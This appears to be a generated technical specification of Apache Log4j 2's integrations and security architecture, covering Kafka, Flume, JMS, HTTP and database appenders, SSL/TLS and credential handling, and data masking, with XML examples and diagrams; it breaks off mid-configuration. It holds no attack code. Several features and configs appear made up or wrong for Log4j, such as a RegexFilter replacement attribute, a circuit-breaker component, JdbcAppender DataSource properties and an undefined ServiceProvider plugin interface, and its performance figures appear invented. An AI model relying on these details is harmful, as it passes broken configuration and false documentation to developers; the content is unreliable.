#### 6.3.3.2 Message Queue Architecture

##### 6.3.3.2.1 Apache Kafka Integration

The `KafkaAppender` provides comprehensive Apache Kafka integration with production-ready features.

**Kafka Integration Features**:
- **KafkaManager**: Configurable producer properties for optimal performance
- **Delivery Modes**: Synchronous and asynchronous message delivery
- **Custom Key Resolution**: Dynamic key assignment using `StrSubstitutor`
- **Retry Logic**: Configurable retry attempts with exponential backoff

**Kafka Configuration Example**:
```xml
<KafkaAppender name="KafkaAppender" topic="application-logs">
    <Property name="bootstrap.servers">kafka1:9092,kafka2:9092,kafka3:9092</Property>
    <Property name="key.serializer">org.apache.kafka.common.serialization.StringSerializer</Property>
    <Property name="value.serializer">org.apache.kafka.common.serialization.StringSerializer</Property>
    <Property name="acks">all</Property>
    <Property name="retries">3</Property>
    <Property name="batch.size">16384</Property>
    <Property name="linger.ms">5</Property>
    <JsonLayout complete="false" compact="true"/>
</KafkaAppender>
```

##### 6.3.3.2.2 Apache Flume Integration

Log4j 2 provides multiple Flume integration patterns through the `FlumeAppender` implementation.

**Flume Integration Patterns**:
- **Embedded Agent**: `FlumeEmbeddedManager` for in-process Flume agents
- **Avro RPC Client**: `FlumeAvroManager` for remote Flume communication
- **Persistent Queue**: `FlumePersistentManager` with Berkeley DB for guaranteed delivery
- **Batch Aggregation**: Size and time-based batch triggers for efficiency

**Flume Configuration Strategies**:
```xml
<FlumeAppender name="FlumeAppender" compress="true">
    <Agent>
        <Property name="type">AVRO</Property>
        <Property name="hostname">flume.example.com</Property>
        <Property name="port">4141</Property>
        <Property name="batchSize">100</Property>
        <Property name="maxConnections">10</Property>
    </Agent>
    <PatternLayout pattern="%d{yyyy-MM-dd HH:mm:ss.SSS} [%t] %-5level %logger - %msg%n"/>
</FlumeAppender>
```

##### 6.3.3.2.3 JMS Integration

The `JmsAppender` provides enterprise messaging integration with comprehensive JMS support.

**JMS Integration Features**:
- **JNDI Lookup**: Enterprise directory service integration
- **Message Types**: TextMessage, ObjectMessage, and MapMessage support
- **Connection Management**: Connection pooling and session management
- **Reconnection Logic**: Configurable reconnection intervals for fault tolerance

##### 6.3.3.2.4 ZeroMQ Integration

High-performance messaging through `JeroMqAppender` implementation.

**ZeroMQ Features**:
- **PUB Socket Support**: Publisher/subscriber pattern implementation
- **I/O Thread Configuration**: Configurable thread pool for optimal performance
- **Multi-endpoint Binding**: Support for multiple ZeroMQ endpoints
- **Socket Options**: Comprehensive socket configuration options

#### 6.3.3.3 Stream Processing Design

##### 6.3.3.3.1 Real-time Event Streaming

Log4j 2 implements real-time event streaming capabilities for immediate external system integration.

**Stream Processing Architecture**:
```mermaid
graph TB
    subgraph "Event Sources"
        A[Application Loggers] --> B[LogEvent Creation]
        B --> C[Filter Processing]
        C --> D[Event Enrichment]
    end
    
    subgraph "Stream Processing"
        D --> E[Event Transformation]
        E --> F[Format Conversion]
        F --> G[Compression]
        G --> H[Batch Aggregation]
    end
    
    subgraph "Output Streams"
        H --> I[Kafka Stream]
        H --> J[Flume Stream]
        H --> K[Socket Stream]
        H --> L[HTTP Stream]
    end
    
    subgraph "External Systems"
        I --> M[Message Broker]
        J --> N[Data Pipeline]
        K --> O[SIEM System]
        L --> P[Analytics Platform]
    end
```

##### 6.3.3.3.2 Event Enrichment and Transformation

**Data Enrichment Capabilities**:
- **MDC Integration**: Mapped Diagnostic Context data inclusion
- **ThreadContext Data**: Per-thread contextual information
- **Structured Headers**: Custom header injection for downstream processing
- **Timestamp Normalization**: Consistent timestamp formatting across systems

#### 6.3.3.4 Batch Processing Flows

##### 6.3.3.4.1 Batch Aggregation Strategies

Log4j 2 implements sophisticated batch processing for optimal throughput and resource utilization.

**Batch Processing Features**:
- **Size-based Triggers**: Configurable batch sizes for different appenders
- **Time-based Triggers**: Automatic batch flushing based on time intervals
- **Transaction Support**: Atomic batch processing for database operations
- **Bulk Operations**: Optimized bulk insert capabilities

**Batch Configuration Example**:
```xml
<JdbcAppender name="DatabaseAppender" tableName="logs">
    <DataSource>
        <Property name="url">jdbc:postgresql://localhost:5432/logs</Property>
        <Property name="batchSize">1000</Property>
        <Property name="batchTimeoutMs">5000</Property>
    </DataSource>
    <Column name="event_date" isEventTimestamp="true"/>
    <Column name="level" pattern="%level"/>
    <Column name="logger" pattern="%logger"/>
    <Column name="message" pattern="%message"/>
</JdbcAppender>
```

##### 6.3.3.4.2 Batch Processing Architecture

```mermaid
flowchart TB
    subgraph "Event Collection"
        A[Log Events] --> B[Batch Accumulator]
        B --> C{Batch Full?}
        C -->|No| D[Continue Accumulation]
        C -->|Yes| E[Trigger Batch Processing]
        D --> B
    end
    
    subgraph "Batch Processing"
        E --> F[Batch Validation]
        F --> G[Format Transformation]
        G --> H[Compression]
        H --> I[Transaction Begin]
        I --> J[Bulk Operation]
        J --> K[Transaction Commit]
    end
    
    subgraph "Error Handling"
        K -->|Success| L[Acknowledge Batch]
        K -->|Failure| M[Transaction Rollback]
        M --> N[Retry Logic]
        N --> O{Retry Count < Max?}
        O -->|Yes| P[Exponential Backoff]
        O -->|No| Q[Dead Letter Queue]
        P --> I
    end
```

#### 6.3.3.5 Error Handling Strategy

##### 6.3.3.5.1 Comprehensive Error Management

Log4j 2 implements a multi-layered error handling strategy to ensure system resilience and data integrity.

**Error Handling Components**:
- **AppenderLoggingException**: Structured exception handling for appender failures
- **Configurable Behavior**: `ignoreExceptions` parameter for fault tolerance
- **Failover Support**: Primary/alternate endpoint configuration
- **Circuit Breaker Pattern**: Automatic failure detection and recovery

##### 6.3.3.5.2 Error Handling Flow

```mermaid
sequenceDiagram
    participant Logger as Logger
    participant Appender as Primary Appender
    participant Failover as Failover Appender
    participant Circuit as Circuit Breaker
    participant StatusLog as Status Logger
    
    Logger->>Appender: Send LogEvent
    Appender->>Appender: Attempt Processing
    
    alt Processing Success
        Appender->>Logger: Acknowledge Success
    else Processing Failure
        Appender->>Circuit: Report Failure
        Circuit->>Circuit: Evaluate Failure Rate
        
        alt Circuit Closed
            Circuit->>Appender: Retry Processing
            Appender->>Appender: Exponential Backoff
        else Circuit Open
            Circuit->>Failover: Activate Failover
            Failover->>Failover: Process Event
            Failover->>Logger: Acknowledge Failover
        end
        
        Appender->>StatusLog: Log Error Details
        StatusLog->>StatusLog: Record Diagnostics
    end
```

##### 6.3.3.5.3 Resilience Patterns

| Error Type | Detection Method | Recovery Strategy | Timeout |
|---|---|---|---|
| **Network Failure** | Connection timeout | Exponential backoff retry | 5-30 seconds |
| **Authentication Failure** | HTTP 401/403 response | Credential refresh | 1 minute |
| **Resource Exhaustion** | Buffer full condition | Synchronous fallback | Immediate |
| **Configuration Error** | Validation failure | Default configuration | 10 seconds |

### 6.3.4 External Systems

#### 6.3.4.1 Third-party Integration Patterns

##### 6.3.4.1.1 Database System Integration

Log4j 2 provides comprehensive database integration through multiple specialized appenders and connection management frameworks.

**Database Integration Modules**:
- **JDBC Integration**: Production-grade connection pooling via DBCP2
- **JPA Support**: Object-relational mapping through JPA 2.1 specification
- **NoSQL Support**: MongoDB (v3/v4), Cassandra, CouchDB integration
- **Flexible Mapping**: Dynamic column mapping and batch processing

**Database Integration Architecture**:
```mermaid
graph TB
    subgraph "Database Appenders"
        A[JdbcAppender] --> B[DBCP2 Connection Pool]
        C[JpaAppender] --> D[EntityManager]
        E[MongoAppender] --> F[MongoDB Driver]
        G[CassandraAppender] --> H[Cassandra Driver]
    end
    
    subgraph "Connection Management"
        B --> I[Connection Pool Config]
        D --> J[Persistence Context]
        F --> K[MongoDB Client]
        H --> L[Cluster Configuration]
    end
    
    subgraph "Data Persistence"
        I --> M[(PostgreSQL)]
        J --> N[(MySQL)]
        K --> O[(MongoDB)]
        L --> P[(Cassandra)]
    end
    
    subgraph "Features"
        M --> Q[Transaction Support]
        N --> R[Batch Processing]
        O --> S[Document Mapping]
        P --> T[Distributed Storage]
    end
```

##### 6.3.4.1.2 Message Broker Integration

**Message Broker Support Matrix**:
- **Apache Kafka**: Full producer configuration with high-throughput capabilities
- **Apache Flume**: Embedded and remote agent support with persistent queues
- **JMS Providers**: JNDI-based resource lookup for enterprise messaging
- **ZeroMQ**: High-performance messaging with PUB/SUB patterns

**Message Broker Configuration Example**:
```xml
<Configuration>
    <Appenders>
        <KafkaAppender name="KafkaAppender" topic="application-logs">
            <Property name="bootstrap.servers">kafka-cluster:9092</Property>
            <Property name="acks">all</Property>
            <Property name="retries">5</Property>
            <Property name="compression.type">gzip</Property>
            <JsonLayout complete="false" compact="true"/>
        </KafkaAppender>
        
        <JmsAppender name="JmsAppender" factoryName="ConnectionFactory" destinationBindingName="logQueue">
            <Property name="java.naming.factory.initial">org.apache.activemq.jndi.ActiveMQInitialContextFactory</Property>
            <Property name="java.naming.provider.url">tcp://localhost:61616</Property>
            <PatternLayout pattern="%d %-5level [%t] %logger - %msg%n"/>
        </JmsAppender>
    </Appenders>
</Configuration>
```

##### 6.3.4.1.3 Web Framework Integration

Log4j 2 provides comprehensive web framework integration for enterprise applications.

**Web Framework Integration Modules**:
- **Servlet 3.0+ Support**: Automatic container integration via `ServletContainerInitializer`
- **Spring Boot Auto-configuration**: Seamless Spring ecosystem integration
- **Spring Cloud Config**: Configuration management for distributed applications
- **Web Fragment Registration**: Automatic web.xml configuration

**Web Integration Architecture**:
```mermaid
sequenceDiagram
    participant Container as Servlet Container
    participant Initializer as ServletContainerInitializer
    participant Context as ServletContext
    participant Listener as ContextListener
    participant Filter as Log4jFilter
    
    Container->>Initializer: Initialize on Startup
    Initializer->>Context: Register Components
    Context->>Listener: Create Context Listener
    Listener->>Listener: Initialize Log4j Configuration
    Context->>Filter: Register Servlet Filter
    Filter->>Filter: Set Thread Context
    
    Note over Container, Filter: Per-request logging context
```

#### 6.3.4.2 Legacy System Interfaces

##### 6.3.4.2.1 Backward Compatibility Architecture

Log4j 2 maintains comprehensive backward compatibility through specialized bridge modules.

**Legacy Integration Bridges**:
- **Log4j 1.x Compatibility**: `log4j-1.2-api` provides full API compatibility
- **Commons Logging Bridge**: `log4j-jcl` enables complete JCL replacement
- **Java Util Logging Adapter**: `log4j-jul` integrates JUL handlers
- **SLF4J Implementation**: `log4j-slf4j-impl` provides native SLF4J binding

**Migration Strategy Matrix**:
| Legacy Framework | Bridge Module | Migration Effort | Performance Impact |
|---|---|---|---|
| **Log4j 1.x** | log4j-1.2-api | Minimal (drop-in replacement) | <5% overhead |
| **Commons Logging** | log4j-jcl | Configuration only | <2% overhead |
| **Java Util Logging** | log4j-jul | Handler configuration | <10% overhead |
| **SLF4J** | log4j-slf4j-impl | Dependency change only | Native performance |

##### 6.3.4.2.2 Bridge Implementation Pattern

```mermaid
graph TB
    subgraph "Application Layer"
        A[Legacy Application] --> B[Legacy API Calls]
        B --> C[Bridge Module]
    end
    
    subgraph "Bridge Layer"
        C --> D[API Translation]
        D --> E[Configuration Mapping]
        E --> F[Event Transformation]
    end
    
    subgraph "Log4j 2 Core"
        F --> G[LoggerContext]
        G --> H[Configuration]
        H --> I[Appender Chain]
        I --> J[Layout Processing]
    end
    
    subgraph "Output Systems"
        J --> K[File System]
        J --> L[Database]
        J --> M[Message Queue]
        J --> N[External API]
    end
```

#### 6.3.4.3 API Gateway Configuration

##### 6.3.4.3.1 HTTP-based API Integration

Log4j 2 provides sophisticated HTTP client capabilities for API gateway integration.

**API Gateway Features**:
- **HTTP Appender**: REST API integration with comprehensive configuration
- **Timeout Management**: Configurable connection and read timeouts
- **SSL/TLS Support**: Full certificate validation and client authentication
- **Header Injection**: Custom header configuration for API keys and authentication
- **Content Negotiation**: Automatic content type detection and handling

**API Gateway Integration Configuration**:
```xml
<HttpAppender name="ApiGatewayAppender" 
              url="https://api-gateway.example.com/v1/logs"
              method="POST"
              connectTimeoutMillis="5000"
              readTimeoutMillis="10000">
    <Property name="Content-Type">application/json</Property>
    <Property name="X-API-Key">${env:API_GATEWAY_KEY}</Property>
    <Property name="User-Agent">Log4j2-HttpAppender/2.x</Property>
    <SslConfiguration>
        <TrustStore location="api-gateway-ca.jks" password="${env:TRUSTSTORE_PASSWORD}"/>
        <KeyStore location="client-cert.p12" password="${env:CLIENT_CERT_PASSWORD}"/>
    </SslConfiguration>
    <JsonLayout complete="false" compact="true"/>
</HttpAppender>
```

##### 6.3.4.3.2 API Gateway Integration Flow

```mermaid
sequenceDiagram
    participant App as Application
    participant Logger as Log4j2 Logger
    participant HttpAppender as HTTP Appender
    participant Gateway as API Gateway
    participant Backend as Backend Service
    
    App->>Logger: Generate Log Event
    Logger->>HttpAppender: Process Event
    HttpAppender->>HttpAppender: Format JSON
    HttpAppender->>HttpAppender: Add Headers
    HttpAppender->>Gateway: HTTP POST Request
    Gateway->>Gateway: Validate API Key
    Gateway->>Gateway: Apply Rate Limiting
    Gateway->>Backend: Forward Request
    Backend->>Gateway: Acknowledge Receipt
    Gateway->>HttpAppender: HTTP 200 Response
    HttpAppender->>Logger: Confirm Delivery
```

#### 6.3.4.4 External Service Contracts

##### 6.3.4.4.1 Plugin-based Extensibility Framework

Log4j 2 implements a comprehensive plugin architecture enabling custom external service integration.

**Plugin Framework Components**:
- **Plugin Annotation Processing**: Compile-time plugin discovery and registration
- **Well-defined Interfaces**: Standardized contracts for custom implementations
- **Dynamic Loading**: Runtime plugin instantiation and configuration
- **Lifecycle Management**: Plugin initialization and cleanup procedures

**Core Plugin Interfaces**:
- **NoSqlProvider**: Database integration abstraction
- **PasswordProvider**: Secure credential handling interface
- **AuthorizationProvider**: Custom authentication scheme support
- **LayoutFactory**: Custom message format implementation

##### 6.3.4.4.2 External Service Integration Pattern

```mermaid
graph TB
    subgraph "Plugin Discovery"
        A[Plugin Annotation] --> B[Compile-time Processing]
        B --> C[Plugin Metadata]
        C --> D[Plugin Registry]
    end
    
    subgraph "Plugin Instantiation"
        D --> E[Plugin Factory]
        E --> F[Configuration Binding]
        F --> G[Plugin Instance]
        G --> H[Lifecycle Management]
    end
    
    subgraph "External Service Integration"
        H --> I[Service Authentication]
        I --> J[Connection Establishment]
        J --> K[Data Transformation]
        K --> L[Service Invocation]
        L --> M[Response Handling]
    end
    
    subgraph "Error Handling"
        M --> N[Success Path]
        M --> O[Failure Path]
        O --> P[Retry Logic]
        P --> Q[Fallback Strategy]
    end
```

##### 6.3.4.4.3 Service Contract Implementation

**Custom Service Provider Example**:
```java
@Plugin(name = "CustomServiceProvider", category = Node.CATEGORY, elementType = "serviceProvider")
public class CustomServiceProvider implements ServiceProvider {
    
    @PluginConfiguration
    private Configuration configuration;
    
    @PluginAttribute("serviceUrl")
    private String serviceUrl;
    
    @PluginAttribute("timeout")
    private int timeout = 30000;
    
    public static CustomServiceProvider createProvider(
            @PluginConfiguration Configuration config,
            @PluginAttribute("serviceUrl") String serviceUrl,
            @PluginAttribute("timeout") int timeout) {
        return new CustomServiceProvider(config, serviceUrl, timeout);
    }
    
    @Override
    public void sendEvent(LogEvent event) {
        // Custom service integration logic
        try {
            String formattedEvent = formatEvent(event);
            sendToService(formattedEvent);
        } catch (Exception e) {
            handleError(e, event);
        }
    }
}
```

### 6.3.5 Integration Flow Diagrams

#### 6.3.5.1 Comprehensive Integration Flow

```mermaid
graph TB
    subgraph "Application Layer"
        A[Application Code] --> B[Logger.info/warn/error]
        B --> C[LogEvent Creation]
        C --> D[MDC/NDC Context]
    end
    
    subgraph "Core Processing"
        D --> E[Filter Chain]
        E --> F[Async Processing]
        F --> G[Layout Processing]
        G --> H[Appender Manager]
    end
    
    subgraph "Integration Layer"
        H --> I{Appender Type}
        I -->|HTTP| J[HTTP Appender]
        I -->|Socket| K[Socket Appender]
        I -->|Kafka| L[Kafka Appender]
        I -->|Database| M[JDBC Appender]
        I -->|JMS| N[JMS Appender]
    end
    
    subgraph "Connection Management"
        J --> O[HTTP Connection Pool]
        K --> P[Socket Manager]
        L --> Q[Kafka Producer]
        M --> R[Database Connection Pool]
        N --> S[JMS Connection Factory]
    end
    
    subgraph "External Systems"
        O --> T[REST API]
        P --> U[Log Server]
        Q --> V[Kafka Cluster]
        R --> W[Database]
        S --> X[Message Queue]
    end
    
    subgraph "Monitoring & Feedback"
        T --> Y[Health Check]
        U --> Z[Connection Status]
        V --> AA[Producer Metrics]
        W --> BB[Transaction Status]
        X --> CC[Queue Metrics]
    end
```

#### 6.3.5.2 API Architecture Integration

```mermaid
graph TB
    subgraph "Client Applications"
        A[Web Application] --> B[Log4j2 Logger]
        C[Microservice] --> D[Log4j2 Logger]
        E[Batch Job] --> F[Log4j2 Logger]
    end
    
    subgraph "Log4j2 API Layer"
        B --> G[LoggerContext]
        D --> G
        F --> G
        G --> H[Configuration Manager]
        H --> I[Appender Registry]
    end
    
    subgraph "Protocol Adapters"
        I --> J[HTTP Adapter]
        I --> K[Socket Adapter]
        I --> L[Message Queue Adapter]
        I --> M[Database Adapter]
    end
    
    subgraph "Security Layer"
        J --> N[SSL/TLS Handler]
        K --> O[Certificate Manager]
        L --> P[SASL Authentication]
        M --> Q[Database Security]
    end
    
    subgraph "External API Gateway"
        N --> R[Load Balancer]
        R --> S[API Gateway]
        S --> T[Rate Limiter]
        T --> U[Authentication Service]
        U --> V[Backend Services]
    end
    
    subgraph "Monitoring & Analytics"
        V --> W[Metrics Collection]
        W --> X[Log Aggregation]
        X --> Y[Analytics Platform]
        Y --> Z[Alerting System]
    end
```

#### 6.3.5.3 Message Flow Architecture

```mermaid
sequenceDiagram
    participant App as Application
    participant Logger as Logger
    participant Async as Async Processor
    participant Appender as Appender
    participant Manager as Connection Manager
    participant External as External System
    
    App->>Logger: Log Event
    Logger->>Async: Enqueue Event
    Note over Async: Ring Buffer Processing
    
    Async->>Appender: Process Event Batch
    Appender->>Appender: Format Message
    Appender->>Manager: Get Connection
    Manager->>Manager: Validate Connection
    Manager->>Appender: Return Connection
    
    Appender->>External: Send Message
    External->>Appender: Acknowledge
    Appender->>Manager: Return Connection
    Manager->>Manager: Pool Connection
    
    alt Error Scenario
        External->>Appender: Error Response
        Appender->>Appender: Retry Logic
        Appender->>Manager: Get Failover Connection
        Manager->>Appender: Provide Backup
        Appender->>External: Retry Message
    end
    
    Appender->>Async: Processing Complete
    Async->>Logger: Batch Complete
    Logger->>App: Continue Execution
```

### 6.3.6 Performance and Scalability

#### 6.3.6.1 Integration Performance Characteristics

| Integration Type | Latency | Throughput | Memory Usage | CPU Impact |
|---|---|---|---|---|
| **HTTP Appender** | 10-50ms | 1K-10K events/sec | 8-16MB | Low |
| **Socket Appender** | 1-5ms | 10K-100K events/sec | 2-8MB | Very Low |
| **Kafka Appender** | 5-20ms | 50K-500K events/sec | 16-64MB | Low |
| **JDBC Appender** | 5-15ms | 5K-50K events/sec | 8-32MB | Medium |
| **JMS Appender** | 10-30ms | 2K-20K events/sec | 16-32MB | Medium |

#### 6.3.6.2 Scalability Optimization

**Connection Pooling Configuration**:
```xml
<JdbcAppender name="DatabaseAppender" tableName="logs">
    <ConnectionSource>
        <DataSource>
            <Property name="initialSize">5</Property>
            <Property name="maxActive">50</Property>
            <Property name="maxIdle">25</Property>
            <Property name="minIdle">5</Property>
            <Property name="maxWait">10000</Property>
            <Property name="validationQuery">SELECT 1</Property>
            <Property name="testOnBorrow">true</Property>
            <Property name="testWhileIdle">true</Property>
        </DataSource>
    </ConnectionSource>
</JdbcAppender>
```

### 6.3.7 Security Considerations

#### 6.3.7.1 Transport Security

- **SSL/TLS Encryption**: End-to-end encryption for all network communications
- **Certificate Validation**: Comprehensive certificate chain validation
- **Protocol Security**: Support for TLS 1.2+ protocols with secure cipher suites
- **Authentication**: Multiple authentication mechanisms (Basic, Certificate, Custom)

#### 6.3.7.2 Data Security

- **Sensitive Data Filtering**: Configurable filters for PII and sensitive information
- **Encryption at Rest**: Support for encrypted storage backends
- **Access Control**: Integration with enterprise authentication systems
- **Audit Trails**: Comprehensive logging of integration activities

### 6.3.8 References

#### Files Examined
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/mom/kafka/KafkaAppender.java` - Kafka integration implementation with producer configuration
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/HttpAppender.java` - HTTP/REST API integration with connection management
- `log4j-web/src/main/java/org/apache/logging/log4j/web/Log4jServletContainerInitializer.java` - Servlet container integration for web applications
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/SslConfiguration.java` - SSL/TLS configuration and certificate management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/util/BasicAuthorizationProvider.java` - Basic authentication implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/SocketAppender.java` - TCP/UDP socket-based integration
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/mom/JmsAppender.java` - JMS integration with enterprise messaging
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/mom/jeromq/JeroMqAppender.java` - ZeroMQ integration for high-performance messaging
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/AbstractSocketManager.java` - Network abstraction layer for socket management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/TcpSocketManager.java` - TCP socket implementation with connection pooling
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/HttpURLConnectionManager.java` - HTTP connection management and pooling
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/SocketOptions.java` - Socket configuration options and performance tuning
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/nosql/AbstractNoSqlConnection.java` - NoSQL database integration abstraction
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/PasswordProvider.java` - Password handling interface for secure credential management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/KeyStoreConfiguration.java` - Keystore management for SSL/TLS

#### Folders Explored
- `log4j-web/` - Servlet container integration module for web applications
- `log4j-spring-boot/` - Spring Boot integration and auto-configuration
- `log4j-flume-ng/` - Apache Flume integration for log aggregation
- `log4j-slf4j-impl/` - SLF4J binding implementation for framework compatibility
- `log4j-mongodb3/` - MongoDB v3 integration for document storage
- `log4j-mongodb4/` - MongoDB v4 integration with enhanced features
- `log4j-samples/log4j-samples-flume-embedded/` - Flume embedded agent samples
- `log4j-samples/log4j-samples-flume-remote/` - Flume remote agent integration samples
- `log4j-spring-cloud-config/log4j-spring-cloud-config-samples/` - Spring Cloud Config integration samples

#### Technical Specification Sections
- **1.2 SYSTEM OVERVIEW** - System architecture context and integration patterns
- **6.1 CORE SERVICES ARCHITECTURE** - Component architecture and internal communication patterns
- **6.2 DATABASE DESIGN** - Database integration patterns and persistence mechanisms

## 6.4 SECURITY ARCHITECTURE

### 6.4.1 Security Architecture Overview

Apache Log4j 2 implements a **specialized security architecture** designed specifically for secure logging operations rather than traditional application-level authentication and authorization. The framework's security model focuses on protecting log data in transit, filtering sensitive information, and providing secure integration with external systems while maintaining the high-performance characteristics required for enterprise logging.

The security architecture operates on three core principles:

- **Secure Transport**: Comprehensive SSL/TLS implementation for all network communications
- **Data Protection**: Advanced filtering and masking capabilities for sensitive information
- **Integration Security**: Secure authentication mechanisms for external system connectivity

#### 6.4.1.1 Security Scope and Boundaries

**Primary Security Boundaries**:
- **Network Communications**: SSL/TLS encryption for all network appenders (Socket, HTTP, Kafka, JMS)
- **Data Processing**: Pattern-based filtering and sanitization of sensitive log content
- **External Integration**: Authentication and authorization for remote configuration sources
- **Web Container Integration**: Secure context isolation in servlet environments

**Security Architecture Components**:

```mermaid
graph TB
    subgraph "Security Layer"
        A[SSL/TLS Engine] --> B[Certificate Management]
        C[Authentication Framework] --> D[Credential Providers]
        E[Data Protection] --> F[Pattern Filters]
        G[Web Security] --> H[Context Isolation]
    end
    
    subgraph "Network Security"
        B --> I[KeyStore Management]
        B --> J[TrustStore Management]
        I --> K[Client Certificates]
        J --> L[CA Validation]
    end
    
    subgraph "Data Security"
        F --> M[Regex Filtering]
        F --> N[Replacement Patterns]
        M --> O[Sensitive Data Masking]
        N --> P[Content Sanitization]
    end
    
    subgraph "Integration Security"
        D --> Q[Memory Provider]
        D --> R[File Provider]
        D --> S[Environment Provider]
        Q --> T[HTTP Basic Auth]
        R --> U[Remote Configuration]
        S --> V[System Integration]
    end
```

#### 6.4.1.2 Security Implementation Characteristics

| Security Domain | Implementation | Coverage | Performance Impact |
|---|---|---|---|
| **Transport Security** | SSL/TLS with certificate validation | All network appenders | <5% overhead |
| **Data Protection** | Pattern-based filtering/masking | All log events | <2% overhead |
| **Authentication** | HTTP Basic Auth, certificate-based | HTTP/Remote config | <1% overhead |
| **Web Integration** | Context isolation, thread safety | Servlet containers | Minimal |

### 6.4.2 Transport Security Architecture

#### 6.4.2.1 SSL/TLS Implementation

Apache Log4j 2 provides a comprehensive SSL/TLS implementation through the `org.apache.logging.log4j.core.net.ssl` package, supporting enterprise-grade secure communications for all network-based appenders.

**SSL/TLS Security Components**:

```mermaid
graph TB
    subgraph "SSL Configuration"
        A[SslConfiguration] --> B[SslConfigurationFactory]
        B --> C[Protocol Selection]
        C --> D[Cipher Suite Configuration]
    end
    
    subgraph "Certificate Management"
        E[KeyStoreConfiguration] --> F[TrustStoreConfiguration]
        F --> G[AbstractKeyStoreConfiguration]
        G --> H[Certificate Validation]
    end
    
    subgraph "Password Management"
        I[PasswordProvider Interface] --> J[MemoryPasswordProvider]
        I --> K[FilePasswordProvider]
        I --> L[EnvironmentPasswordProvider]
    end
    
    subgraph "Connection Security"
        M[LaxHostnameVerifier] --> N[Certificate Chain Validation]
        N --> O[SSL Context Creation]
        O --> P[Secure Socket Factory]
    end
    
    A --> E
    E --> I
    H --> M
    P --> Q[Secure Network Communication]
```

#### 6.4.2.2 Certificate Management System

**Certificate Handling Features**:
- **KeyStore Management**: Support for JKS, PKCS12, and other standard formats
- **TrustStore Configuration**: CA certificate validation and chain verification
- **Dynamic Certificate Loading**: Runtime certificate updates without restart
- **Hostname Verification**: Configurable hostname validation with fallback options

**SSL Configuration Example**:
```xml
<SslConfiguration>
    <KeyStore location="client-keystore.jks" password="${env:KEYSTORE_PASSWORD}"/>
    <TrustStore location="ca-truststore.jks" password="${env:TRUSTSTORE_PASSWORD}"/>
    <Protocol>TLSv1.2</Protocol>
    <VerifyHostName>true</VerifyHostName>
</SslConfiguration>
```

#### 6.4.2.3 Protocol Security Matrix

| Protocol | SSL/TLS Support | Authentication | Encryption Level |
|---|---|---|---|
| **HTTP/HTTPS** | Full SSL/TLS 1.2+ | Basic Auth, Certificate | AES 256-bit |
| **TCP Socket** | SSL Socket Layer | Certificate-based | AES 256-bit |
| **Kafka** | SASL/SSL | SASL mechanisms | Protocol-dependent |
| **JMS** | Provider-dependent | JNDI-based | Provider-dependent |

### 6.4.3 Authentication Framework

#### 6.4.3.1 HTTP Authentication System

The authentication framework in Apache Log4j 2 focuses on secure connectivity to external systems rather than user authentication, implementing HTTP Basic Authentication for remote configuration sources and HTTP appenders.

**Authentication Components**:

```mermaid
sequenceDiagram
    participant Config as Configuration
    participant AuthProvider as AuthorizationProvider
    participant PasswordDecryptor as PasswordDecryptor
    participant HTTPClient as HTTP Client
    participant RemoteSystem as Remote System
    
    Config->>AuthProvider: Request Authorization
    AuthProvider->>PasswordDecryptor: Decrypt Credentials
    PasswordDecryptor->>AuthProvider: Return Plaintext
    AuthProvider->>AuthProvider: Encode Base64
    AuthProvider->>HTTPClient: Set Authorization Header
    HTTPClient->>RemoteSystem: HTTP Request with Auth
    RemoteSystem->>HTTPClient: Validate & Respond
    HTTPClient->>Config: Return Response
```

#### 6.4.3.2 Credential Management

**Password Provider Architecture**:
- **MemoryPasswordProvider**: In-memory credential storage for development
- **FilePasswordProvider**: Encrypted credential files for production
- **EnvironmentPasswordProvider**: Environment variable-based credentials
- **PasswordDecryptor Interface**: Pluggable credential decryption support

**Credential Security Configuration**:
```xml
<HttpAppender name="SecureAppender" url="https://secure.example.com/logs">
    <Property name="Authorization">Basic ${env:HTTP_BASIC_AUTH}</Property>
    <SslConfiguration>
        <KeyStore location="client.p12" password="${file:keystore.pwd}"/>
        <TrustStore location="ca-certs.jks" password="${env:TRUSTSTORE_PWD}"/>
    </SslConfiguration>
</HttpAppender>
```

#### 6.4.3.3 Authentication Integration Points

| Integration Type | Authentication Method | Credential Source | Security Level |
|---|---|---|---|
| **HTTP Appender** | Basic Authentication | Environment/File | TLS-protected |
| **Remote Configuration** | HTTP Basic Auth | Encrypted files | Certificate-based |
| **JMS Integration** | JNDI Authentication | Directory service | Provider-dependent |
| **Database Connections** | Connection string | Encrypted properties | Database-level |

### 6.4.4 Data Protection Architecture

#### 6.4.4.1 Sensitive Data Filtering

Apache Log4j 2 implements comprehensive data protection through pattern-based filtering and replacement mechanisms to prevent sensitive information from being logged.

**Data Protection Components**:

```mermaid
graph TB
    subgraph "Input Processing"
        A[Log Event] --> B[Pattern Matcher]
        B --> C[Regex Filter]
        C --> D[Replacement Engine]
    end
    
    subgraph "Filter Chain"
        E[RegexFilter] --> F[Pattern Validation]
        F --> G[Match Detection]
        G --> H[Action Decision]
    end
    
    subgraph "Data Transformation"
        I[RegexReplacement] --> J[Pattern Substitution]
        J --> K[Masking Rules]
        K --> L[Content Sanitization]
    end
    
    subgraph "Output Encoding"
        M[EncodingPatternConverter] --> N[HTML Escaping]
        M --> O[JSON Escaping]
        M --> P[XML Escaping]
        M --> Q[CRLF Protection]
    end
    
    D --> E
    H --> I
    L --> M
    Q --> R[Secure Log Output]
```

#### 6.4.4.2 Pattern-Based Security Filters

**Filtering Mechanisms**:
- **RegexFilter**: Pattern matching for sensitive data detection
- **RegexReplacement**: Secure replacement of matched patterns
- **Content Validation**: Input validation and sanitization
- **Encoding Protection**: Output encoding for various formats

**Data Protection Configuration**:
```xml
<Configuration>
    <Filters>
        <RegexFilter regex="(\d{4}-\d{4}-\d{4}-\d{4})" replacement="****-****-****-****"/>
